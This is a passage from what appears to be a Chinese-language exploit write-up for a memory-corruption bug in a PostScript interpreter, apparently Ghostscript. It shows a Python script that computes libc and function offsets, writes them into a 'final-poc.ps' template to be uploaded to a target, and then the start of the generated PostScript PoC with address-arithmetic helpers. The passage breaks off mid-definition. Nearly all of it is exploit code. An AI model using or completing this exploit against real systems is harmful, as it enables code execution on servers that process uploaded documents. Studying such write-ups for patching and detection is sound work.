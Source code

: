 ```bash
print("Offset from .init start addr to f_addr_s_std_noseek: 0x{:x} == {:d}".format(f_addr_s_std_noseek_offset, f_addr_s_std_noseek_offset))

with open("final-poc.ps.template", "r") as f:
    final_file = f.read().strip()

final_file = final_file.replace("F_ADDR_S_STD_NOSEEK_OFFSET", str(f_addr_s_std_noseek_offset))
final_file = final_file.replace("LIBC_PLT_OFFSET", str(libc_plt_offset))

with open("final-poc.ps", "w") as f:
    f.write(final_file)

print("Now try to upload the final-poc.ps")
```

[![](assets/1706771701-58d1dff84806f03822dfc0a14107975a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202654-afe41c04-bea1-1.png)

生成 poc 如下

```bash
10000000 setvmthreshold
% (a) (b) -> (ab) 
/concatstrings { exch dup length 
 2 index length add string 
 dup dup 4 2 roll copy length
 4 -1 roll putinterval
} bind def

% (aabb) -> (bbaa)
/reverse{
 /str exch def
 /temp str 0 get def
 /i 0 def
 str length 2 idiv{
  /temp str i get def
  str i str str length i sub 1 sub get put
  str str length i sub 1 sub temp put
  /i i 1 add def
 }repeat
 str 
}def
%offset addr -> addr+offset
/addOffset{
 exch (16#) exch concatstrings
 cvi
 add
 16 16 string cvrs
}def
% addr offset -> addr-offset
/subOffset{
 exch (16#) exch concatstrings
 cvi
```